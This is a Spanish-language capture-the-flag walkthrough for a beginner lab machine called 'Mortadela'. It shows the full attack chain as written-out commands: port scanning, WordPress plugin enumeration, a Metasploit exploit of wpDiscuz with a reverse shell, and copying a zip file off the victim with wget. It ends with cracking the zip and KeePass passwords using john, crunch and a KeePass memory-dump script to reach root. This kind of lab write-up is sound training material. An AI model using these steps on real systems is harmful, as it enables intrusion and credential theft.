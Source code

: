 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Mortadela

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.68
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.68
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH,** el **puerto 80** perteneciente al **servicio HTTP** y el **puerto 3306** perteneciente al **servicio MySQL** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,3306 -v 192.168.1.68
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página por defecto de **Apache**.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.68/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Vemos que nos ha encontrado un directorio de **WordPress** por lo que accederemos a él.

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como no encontramos nada relevante vamos a realizar un escaneo de plugins.

```
wpscan --url http://192.168.1.68/wordpress/ --plugins-detection aggressive
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se nos muestra un plugin llamado **wpdiscuz** y su versión por lo que a través de **searchsploit** miraremos si esa versión contiene alguna vulnerabilidad para explotar con **Metasploit**.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Comprobamos que sí la hay.

```bash
msfconsole
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Buscamos plugin para la vulnerabilidad.

```bash
search wpdiscuz
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
use 0
show options
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Configuramos lo que nos piden.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ejecutamos.

```
run
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ejecutamos una shell pero nos ponemos en escucha a través del puerto 443 para enviarnos una **Reverse Shell**.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos tratamiento de la TTY. Como se nos muestra aquí: [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/).

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar pero no tenemos permisos. Por lo que buscamos SUID.

```bash
find / -perm -4000 -ls 2> /dev/null
```

No hay un binario para escalar privilegios. Por lo que indagamos a través de los directorios y encontramos en el directorio `/opt` un archivo **.zip**. Al descomprimirlo nos pide una contraseña. Nos lo descargamos a nuestra máquina local.

```bash
En la máquina víctima
python3 -m http.server 8080
En la máquina atacante
wget http://192.168.1.68:8080/muyconfidencial.zip
```

Ahora realizamos fuerza bruta.

```bash
zip2john muyconfidencial.zip > hash_zip
```

```bash
john hash_zip --wordlist=/usr/share/wordlists/rockyou.txt 
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hemos descubierto la contraseña que se nos pide para descomprimir el archivo.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Utilizamos el siguiente script de Python para extraer contraseñas de un archivo de base de datos de **KeePass**:

<pre class="language-plaintext"><code class="lang-plaintext"><strong>https://github.com/z-jxy/keepass_dump/blob/main/keepass_dump.py
</strong></code></pre>

```bash
python3 keepass.py -f KeePass.DMP
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora creamos un diccionario con mayúsculas y minúsculas.

```bash
crunch 14 14 ABCDEFGHIJKLMNÑOPQRSTUVWXYZabcdefghijklmnñopqrstuvwxyz -t @aritrini12345 -o diccionario.txt
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora que contamos con un diccionario, procederemos a extraer el hash del archivo utilizando `keepass2john`. Posteriormente, emplearemos `john` para descubrir la contraseña.

```bash
keepass2john Database.kdbx > hash
```

```bash
john hash --wordlist=diccionario.txt
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
keepass2 Database.kdbx
```

Ingresamos la contraseña y vemos que hay un usuario **root**. Copiamos la contraseña e iniciamos sesión.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
